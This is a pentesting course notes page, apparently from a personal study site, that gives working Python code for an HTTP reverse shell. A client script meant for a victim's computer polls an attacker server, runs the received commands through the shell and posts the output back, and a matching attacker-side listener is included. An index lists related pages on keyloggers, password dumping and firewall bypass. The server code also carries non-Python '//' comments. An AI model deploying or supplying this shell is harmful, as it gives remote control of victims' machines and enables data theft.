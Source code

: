 ```yaml
---
title: Coding an http reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


#  Coding an http reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```bash
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import subprocess
import time

while True:

    req = requests.get('http://192.168.0.152:8080') # Send GET request to our kali server
    command = req.text # Store the received txt into command variable

    if 'terminate' in command:
        break

    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read()) # POST the result
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read()) # or the error -if any-

    time.sleep(3)

```


## Server side

To be run on attacker's computer.

```bash
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import http.server

HOST_NAME = "192.168.0.152" // our attacker machine
PORT_NUMBER = 8080 // attacker listening port

class MyHandler(http.server.BaseHTTPRequestHandler): # MyHandler defines what we should do when we receive a GET/POST

    def do_GET(self):

        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode())

    def do_POST(self):

        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length']) #Define the length which means how many bytes the HTTP POST data contains, the length value has to be integer
        postVar = self.rfile.read(length)
        print(postVar.decode())

if __name__ == "__main__":

    # We start a server_class and create httpd object and pass our kali IP,port number and class handler(MyHandler)
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever() # start the HTTP server, however if we got ctrl+c we will Interrupt and stop the server
    except KeyboardInterrupt:
        print('[!] Server is terminated')
        httpd.server_close()


```